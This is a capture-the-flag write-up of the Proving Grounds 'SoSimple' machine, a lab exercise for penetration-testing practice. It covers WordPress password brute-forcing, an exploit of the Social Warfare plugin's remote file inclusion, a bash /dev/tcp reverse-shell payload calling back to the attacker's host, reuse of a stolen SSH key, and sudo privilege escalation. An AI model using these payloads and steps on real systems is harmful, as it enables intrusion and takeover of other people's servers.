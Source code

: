 # PG Play - SoSimple

#### Ip: 10.10.199.225
#### Name: SoSimple
#### Difficulty: Intermediate
#### Community Rating: Intermediate

----------------------------------------------------------------------

### Enumeration

I'll kick off enumerating this box with an Nmap scan covering all TCP ports. To speed this along I'll also user the `--min-rate 10000` flag:

```text
┌──(ryan㉿kali)-[~/PG/SoSimple]
└─$ sudo nmap -p-  --min-rate 10000 192.168.188.78
[sudo] password for ryan: 
Starting Nmap 7.93 ( https://nmap.org ) at 2023-08-15 12:03 CDT
Nmap scan report for 192.168.188.78
Host is up (0.063s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 6.85 seconds
```

Lets scan these ports using the `-sV` and `-sC` flags to enumerate versions and to use default Nmap scripts:

```text
┌──(ryan㉿kali)-[~/PG/SoSimple]
└─$ sudo nmap -sC -sV 192.168.188.78 -p 22,80
Starting Nmap 7.93 ( https://nmap.org ) at 2023-08-15 12:04 CDT
Nmap scan report for 192.168.188.78
Host is up (0.066s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 5b5543efafd03d0e63207af4ac416a45 (RSA)
|   256 53f5231be9aa8f41e218c6055007d8d4 (ECDSA)
|_  256 55b77b7e0bf54d1bdfc35da1d768a96b (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: So Simple
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 8.82 seconds
```

Navigating to the webpage on port 80 we find a basic image:

![site.png](../assets/sosimple_assets/site.png)

And checking out the source code we find a comment:

![note.png](../assets/sosimple_assets/note.png)

Using Feroxbuster we find there is a page running WordPress:

![ferox.png](../assets/sosimple_assets/ferox.png)

Heading to that page we find a pretty generic WordPress site:

![wp.png](../assets/sosimple_assets/wp.png)

Lets use wpscan to enumerate a bit more:

```text
┌──(ryan㉿kali)-[~/PG/SoSimple]
└─$ wpscan --url http://192.168.188.78/wordpress/ --enumerate vp,u,vt,tt


_______________________________________________________________
         __          _______   _____
         \ \        / /  __ \ / ____|
          \ \  /\  / /| |__) | (___   ___  __ _ _ __ ®
           \ \/  \/ / |  ___/ \___ \ / __|/ _` | '_ \
            \  /\  /  | |     ____) | (__| (_| | | | |
             \/  \/   |_|    |_____/ \___|\__,_|_| |_|

         WordPress Security Scanner by the WPScan Team
                         Version 3.8.22
       Sponsored by Automattic - https://automattic.com/
       @_WPScan_, @ethicalhack3r, @erwan_lr, @firefart
_______________________________________________________________
```

Cool looks like we've found two usernames:

![users.png](../assets/sosimple_assets/users.png)

We can also bruteforce max's password using wpscan:

```text
┌──(ryan㉿kali)-[~/PG/SoSimple]
└─$ wpscan --url http://192.168.188.78/wordpress/wp-login.php --usernames max --passwords /usr/share/wordlists/rockyou.txt

<snip>

[!] Valid Combinations Found:
 | Username: max, Password: opensesame
```

Logging into the site and checking out the page source we can see that there is a plugin called social warfare.

![source.png](../assets/sosimple_assets/source.png)

Searching for exploits I find: https://www.exploit-db.com/exploits/46794

Looking at the exploit it seems the path we can exploit is:

```text
wp-admin/admin-post.php?swp_debug=load_options&swp_url=%s
```

![path.png](../assets/sosimple_assets/path.png)

And it also seems we can use this to grab a reverse shell ending in .txt

### Exploitation

Lets create a file with a reverse shell one-liner and save it as payload.txt:

```text
<pre>system("bash -c 'bash -i >& /dev/tcp/192.168.45.197/443 0>&1'")</pre>
```

Now lets set up a python webserver:

```text
python -m http.server 80
```
As well as a netcat listener, and then naviagate to the following url:

http://192.168.188.78/wordpress/wp-admin/admin-post.php?swp_debug=load_options&swp_url=http://192.168.45.197/payload.txt

Checking our python logs we can confirm the file has been downloaded:

```text
┌──(ryan㉿kali)-[~/PG/SoSimple]
└─$ python -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
192.168.188.78 - - [15/Aug/2023 12:38:27] "GET /payload.txt?swp_debug=get_user_options HTTP/1.0" 200 -
```

And we also catch a reverse shell back:

```text
┌──(ryan㉿kali)-[~/PG/SoSimple]
└─$ nc -lnvp 443
listening on [any] 443 ...
connect to [192.168.45.197] from (UNKNOWN) [192.168.188.78] 35788
bash: cannot set terminal process group (922): Inappropriate ioctl for device
bash: no job control in this shell
www-data@so-simple:/var/www/html/wordpress/wp-admin$ whoami
whoami
www-data
www-data@so-simple:/var/www/html/wordpress/wp-admin$ hostname
hostname
so-simple
```

Once on the target I find a copy of Max's SSH key, so I'll grab that and SSH in as Max for a more stable connection:

```text
┌──(ryan㉿kali)-[~/PG/SoSimple]
└─$ chmod 600 id_rsa
                                                                                                                             
┌──(ryan㉿kali)-[~/PG/SoSimple]
└─$ ssh -i id_rsa max@192.168.188.78
```

We can now grag the local.txt flag:

![local_flag.png](../assets/sosimple_assets/local_flag.png)

### Privilege Escalation

Running `sudo -l` to see what can be run with elevated permissions, we find we can run as user steven service with sudo.

We can head over to https://gtfobins.github.io/gtfobins/service/ and see what the syntax is to exploit this:

![gtfo.png](../assets/sosimple_assets/gtfo.png)

Lets run:

```text
max@so-simple:~$ sudo -u steven service ../../bin/sh
$ whoami
steven
```

Nice, that worked! Lets see what steven can run with sudo:

```text
$ sudo -l
Matching Defaults entries for steven on so-simple:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User steven may run the following commands on so-simple:
    (root) NOPASSWD: /opt/tools/server-health.sh
```

Trying to inspect that file, we find it doesn't actually exist:

```text
$ cd /opt/tools
/etc/init.d/../../bin/sh: 3: cd: can't cd to /opt/tools
$ ls
bin   cdrom  etc   lib	  lib64   lost+found  mnt  proc  run   snap  swap.img  tmp  var
boot  dev    home  lib32  libx32  media       opt  root  sbin  srv   sys       usr
$ cd opt
$ ls
$ ls -la
total 8
drwxr-xr-x  2 steven steven 4096 Sep  3  2020 .
drwxr-xr-x 20 root   root   4096 Aug 14  2020 ..
```

Cool, so we should just be able to create our own file with the same name with a bash shell in it, make it executable, and then we can execute it using sudo, which will give us a root shell.

First, lets get a better prompt with `python3 -c 'import pty;pty.spawn("/bin/bash")'`

Then we can run the following:

![tools.png](../assets/sosimple_assets/tools.png)

Nice! We're root! Lets grab the final flag:

![root_flag.png](../assets/sosimple_assets/root_flag.png)

Thanks for following along!

-Ryan

-----------------------------------
